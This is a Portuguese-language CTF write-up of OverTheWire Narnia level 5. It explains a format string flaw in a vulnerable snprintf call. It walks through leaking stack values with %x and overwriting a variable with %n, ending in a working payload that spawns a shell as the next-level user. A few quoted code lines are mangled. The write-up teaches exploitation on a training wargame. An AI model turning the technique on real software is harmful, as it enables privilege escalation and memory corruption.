 ```yaml
---
layout: default
title: Level 5 - Format String Attack [OverTheWire CTF – Narnia] write-up
date: 2017-05-31 17:14
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">Level 0</a></li>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/">Level 1</a></li>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">Level 2</a></li>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2017/01/07/level-3-overthewire-ctf-narnia-write-up/">Level 3</a></li>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2017/01/15/level-4-overthewire-ctf-narnia-write-up/">Level 4</a></li>
</ul>

Quem diria que é mais trabalhoso escrever writeup do que resolver os desafios? Mas continuo firme e forte na tentativa de documentar e ensinar um pouco que sei para os próximos 1337 afim de aprender.

Hora de ownar o <strong>narnia5</strong>.

https://gist.github.com/anonymous/f6fb1753c42a085a65b9cc1f21948bdf

O objetivo é claro, mudar o valor da variável <strong>i</strong> de 1 para 500. Hora de ver o código e criar teorias de como fazer isso.

https://gist.github.com/anonymous/d743b46c946ffe171ea2a2ca5aa04f6f

No inicio da função, <strong>i</strong> recebe o valor 1 e <strong>buffer</strong> é declarado como um vetor de char de tamanho 64. Depois, <a href="http://www.cplusplus.com/reference/cstdio/snprintf/">snprintf</a> manda para buffer 64 caracteres do argumento que passamos para o programa. É aqui que mora a vulnerabilidade que vai permitir mudar o valor de i.

snprintf recebe como argumentos: um ponteiro para o buffer onde será guardado o valor, o tamanho máximo de bytes que será copiado para o buffer e uma string (também podem haver argumentos opcionais). Se a função for chamada desta forma: <em>snprintf(buffer, 100, "Sou uma %s", "string")</em>, irá salvar em buffer o valor <em>"Sou uma string"</em> porque substitui o <em>%s</em> pelo argumento seguinte, a palavra <em>"string"</em>. É tipo o que <a href="http://www.cplusplus.com/reference/cstdio/printf/">printf</a> faria, mas ao invés de imprimir na tela, salva o resultado em algum lugar.

Assim como os outros da família printf, snprintf quando usada de forma relapsa abre espaço para ataques de <a href="https://www.owasp.org/index.php/Format_string_attack">format string</a>.

Uma<em> format string </em>é uma string ASCII que pode conter texto e parâmetros de formatação.

```printf(Sua senha do facebook é %s, x41Ax41A)```

A tal <em>format string</em> seriam os argumentos para a função printf aí de cima. Você pode ver que, ao executar esta linha, a função espera uma string como argumento para substituir o identificador %s.

Há outros identificadores como %d para inteiros, %c para caracteres, %x para hexademical, %p para ponteiros, %n que te digo a utilidade depois...

No chall, a função está sendo chamada passando como argumento de formatação o que digitarmos:

```snprintf(buffer, sizeof buffer, argv[1])```

Ao invés do correto, que seria:

```snprintf(buffer, sizeof buffer, %s, argv[1])```

No primeiro caso, temos controle da string de formatação. Isto significa que inserir como argumento um "%s" fará com que snprintf tente imprimir uma string. Mesmo que essa string não exista.

```narnia5@narnia:/narnia$ ./narnia5 %s
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒u^▒L9L$▒Av9▒D▒] (23)
i = 1 (0xffffd74c)```

Consegue ver essa quantidade de lixo? Isso acontece porque, em uma chamada saudável para snprintf, por exemplo: <em>snprintf(buffer, 25, "%d %s", a, &amp;b)</em>  os dados ficariam organizados dessa forma:

```(topo da stack)
Endereço_de_retorno -
endereço_de_b -
valor_de_a
...
(fundo da stack)```

É na stack que snprintf espera que os valores ou endereço destes valores estejam. Assim, não importa se esses valores tenham ou não sido passados como argumento para a função, snprintf irá ler o que estiver na stack.

Há uma forma de ver esse mal comportamento na prática usando o chall. Ao passar argumentos suficientes, é possível ler o próprio argumento da stack.

```narnia5@narnia:/narnia$ ./narnia5 AAAA.%x.%x.%x.%x.%x
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [AAAA.f7eb7fe6.ffffffff.ffffd71e.f7e2ec34.41414141] (49)
i = 1 (0xffffd73c)```

Usei %x para imprimir os valores em hex e você pode ver que o quinto %x foi substituído pelo valor <em><a href="https://pt.wikipedia.org/wiki/ASCII">41414141</a></em>.

Bom, ler conteúdo arbitrário da memória têm suas <a href="https://security.stackexchange.com/questions/43489/can-i-read-write-canary-values-from-gs-register/43844#43844">utilidades</a>. Mas o objetivo é ganhar uma shell. E para isso acontecer, não é preciso ler e sim sobrescrever i.

É aí que entra o especificador %n. Ao contrário de todos outros, sua utilidade não é formatar para apresentar um valor e sim escrever.

O %n escreve, na variável que for especificada, o número de bytes que foram escritos antes dele.

```printf(12345%n, &amp;variavel)```

A linha de código acima, além de imprimir "<em>12345</em>", irá escrever o inteiro 5 em <em>variavel</em>.

O programa é amigável e ainda nos informa em que lugar da memória está guardado o valor da variável i. Tudo que é preciso é: explorar a format string para escrever 500 bytes e escrever %n no endereço de i.

Agora saindo da teoria para a prática.

Lembra como, após alguns endereços, se consegue imprimir o próprio valor inserido? É dessa forma que passamos o endereço de i.

```narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%x%x%x%x%n &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp;'`
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒▒▒f7eb7746ffffffffffffd6bef7e2fc34] (36)
i = 36 (0xffffd6dc)```

Uow, viu isso? Vamos por partes:

No começo do argumento venenoso que mandei (usei o python para escrever no formato que se deve mas, se simplesmente não entendeu o que fiz, tente ler os <a href="https://brenn0.wordpress.com/category/ctfs/over-the-wire/narnia/">write-ups anteriores do narnia</a> que é onde explico mais cuidadosamente esses paranauê) temos <em>ff ff d6 dc</em>, o endereço de i.

Após o endereço, usei uns %x para sair puxando uns valores da stack até chegar no início do meu próprio argumento, que será <em>ff ff d6 dc</em>. E é ai que entra o %n, que vai alegremente escrever a quantidade de bytes já escritos em <em>ff ff d6 dc</em>.

Por esse motivo que i teve seu valor substituído por 36. Não é por coincidência que o tamanho de buffer também seja 36.

Agora se pode passar um argumento com 500 bytes e ver /bin/sh ser executado com privilégios de narnia6.

```narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%-472s%x%x%x%n'`
Change i's value from 1 -500. GOOD
$ cat /etc/narnia_pass/narnia5
cat: /etc/narnia_pass/narnia5: Permission denied
$ whoami
narnia6```

Nem precisa escrever na mão os 500. O <a href="https://stackoverflow.com/questions/276827/string-padding-in-c">%472s</a> faz o trabalho de preencher o buffer.

Esse desafio só arranha bem pouco a superfície que é o poder que se tem ao explorar uma falha em format strings. Ao contrário de stack overflows simples (sem nenhuma contramedida), que são raríssimos de se ver na prática hoje em dia, format strings ainda são exploradas atualmente. Mesmo que na maioria das vezes seja apenas como um "meio" para o exploit funcionar. O que quis dizer é que: se você for buscar conhecimento, vai encontrar altas maneiras extravagantes e quase mágicas de se usar uma falha desse tipo para vários fins. Cheque <a href="https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf">este PDF </a>se ficou curioso.
